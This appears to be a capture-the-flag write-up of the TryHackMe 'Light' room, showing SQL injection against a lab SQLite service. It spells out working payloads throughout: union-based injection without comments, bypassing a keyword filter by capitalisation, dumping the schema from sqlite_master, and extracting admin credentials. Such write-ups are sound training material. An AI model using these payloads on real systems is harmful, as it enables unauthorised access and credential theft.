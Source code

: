 ```yaml
---
title: "TryHackMe: Light"
author: jaxafed
categories: [TryHackMe]
date: 2025-01-20 00:00:01 +0000
tags: [sql, sql injection, sqlite]
render_with_liquid: false
img_path: /images/tryhackme_light/
image:
  path: room_image.webp
---
```


**Light** was a simple room where we exploited an `SQL` injection in a `SQLite` database to retrieve the credentials for the admin user and a flag.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/r/room/lightroom){: .center }

## Discovering the SQL Injection

As per the room instructions, after connecting to the service on port `1337`, we encounter a database application.

```console
$ rlwrap nc 10.10.67.194 1337
Welcome to the Light database!
Please enter your username:
```

The room also instructs us to use the username `smokey` to begin, and upon entering it, we retrieve the password for the user.

```console
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Since it is a database application, if we try a simple `SQL` injection with `'`, we see that it is successful as we get the error: `Error: unrecognized token: "''' LIMIT 30"`.

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```

Trying a union-based injection and commenting out the `' LIMIT 30` part with `--`, we encounter an interesting error stating that `/*`, `--`, or `%0b` are not allowed.

```console
Please enter your username: ' UNION SELECT 1-- -
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

Instead of trying to comment out the last part due to the `'` causing errors, since `SELECT 1 ''` is a valid query, we can turn the query into `UNION SELECT 1 '' LIMIT 30` by appending `'` to our payload as `' UNION SELECT 1 '`. As we can see, this works, but this time we encounter an interesting error about certain words not being allowed.

```console
Please enter your username: ' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
```

It seems the `UNION` and `SELECT` keywords are not allowed, but we can easily bypass this filter by using capitalization.

```console
Please enter your username: UNION
Ahh there is a word in there I don't like :(
Please enter your username: SELECT
Ahh there is a word in there I don't like :(
Please enter your username: Union
Username not found.
Please enter your username: Select
Username not found.
```

As we can see now, with the payload `' Union Select 1 '`, we are successful with a union-based injection.

```console
Please enter your username: ' Union Select 1 '
Password: 1
```

## Identifying the DBMS

With the union-based injection we have, if we attempt to identify the database management system, we discover it is `SQLite`.

```console
Please enter your username: ' Union Select version() '
Error: no such function: version
Please enter your username: ' Union Select USER_ID(1) '
Error: no such function: USER_ID
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
```

## Dumping Database Structure

Now that we know the DBMS is `SQLite`, we can use the payload `' Union Select group_concat(sql) FROM sqlite_master '` to extract the database structure, as shown below:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

## Extracting Data

Since our goal is to find the credentials for the admin user, we can dump the `username` and `password` fields from the `admintable` using the payload `' Union Select group_concat(username || ":" || password) FROM admintable '` and this not only gives us the credentials but also the flag, allowing us to complete the room.

```console
Please enter your username: ' Union Select group_concat(username || ":" || password) FROM admintable '
Password: Tr[REDACTED]in:ma[REDACTED]17,flag:THM{SQ[REDACTED]O?}
```
{: .wrap }

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>


